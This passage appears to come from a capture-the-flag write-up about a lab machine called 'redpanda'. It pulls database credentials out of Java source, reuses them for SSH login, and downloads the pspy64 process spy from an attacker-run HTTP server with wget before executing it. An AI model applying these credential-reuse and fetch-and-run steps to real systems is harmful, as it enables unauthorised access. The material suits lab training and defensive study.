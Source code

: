 ```java
        return pandas;
    }
}

```

Found stored credentials:

>conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "`woodenk`", "`RedPandazRule`");

>Lateral Movement => SSH (woodenk)

### Lateral Movement

#### SSH (woodenk)

	ssh woodenk@10.10.11.170

```text
woodenk@10.10.11.170's password: RedPandazRule
woodenk@redpanda:~$
```

#### Spy processes

Attacker:

	python3 -m http.server 80

Victim:

	wget <attacker_ip>/pspy64
	chmod +x pspy64
	./pspy64

root runs `cleanup.sh` as woodenk:

```text
     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░
CMD: UID=113  PID=914    | /usr/sbin/mysqld
CMD: UID=1000 PID=882    | java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar

CMD: UID=0    PID=22536  | /bin/sh -c sudo -u woodenk /opt/cleanup.sh
CMD: UID=1000 PID=22543  | /bin/bash /opt/cleanup.sh 
CMD: UID=1000 PID=22544  | /usr/bin/find /var/tmp -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=22563  | /usr/bin/find /var/tmp -name *.jpg -exec rm -rf {} ;
CMD: UID=1000 PID=22555  | /usr/bin/find /home/woodenk -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=22565  | /usr/bin/find /home/woodenk -name *.jpg -exec rm -rf {} ;
```
